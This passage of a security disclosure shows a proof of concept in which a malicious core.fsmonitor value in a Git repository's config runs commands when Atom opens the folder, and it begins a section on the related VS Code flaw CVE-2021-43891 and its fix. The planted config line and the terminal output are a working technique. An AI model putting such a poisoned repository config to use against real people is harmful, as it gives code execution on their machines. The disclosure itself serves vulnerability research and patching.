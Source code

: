Create an empty Git repo:

```plain
user@7e031ffb2f03:/$ cd $(mktemp -d)

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ mkdir poc

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ git -C poc init
Initialized empty Git repository in /tmp/tmp.GnAV27DcXj/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Observe that `/tmp/win` does not exist. Run `atom` against the directory containing the malicious `.git` directory, have Atom pop up as an X application, and observe that `/tmp/win` now contains the results of our payload:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat /tmp/win
cat: /tmp/win: No such file or directory

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ atom poc

[... atom opens as an X application ...]

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat /tmp/win
Pwned as uid=31337(user) gid=31337(user) groups=31337(user)
```

## Visual Studio Code - Arbitrary Command Execution (CVE-2021-43891)

* Version tested: [1.59.0](https://code.visualstudio.com/updates/v1_59) on Linux

Fixed in [1.63.1](https://code.visualstudio.com/updates/v1_63) by disabling the Git extension in untrusted workspaces ([PR](https://github.com/microsoft/vscode/issues/139124), [commit](https://github.com/microsoft/vscode/commit/67d6356a25661ecd2bdaf13a3fc8c9d14ee5161f)).

[Visual Studio Code](https://code.visualstudio.com/) is a cross-platform IDE available for macOS, Windows and Linux. Its homepage says:

> Git commands built-in.
>
> Working with Git and other SCM providers has never been easier. Review diffs, stage files, and make commits right from the editor. Push and pull from any hosted SCM service
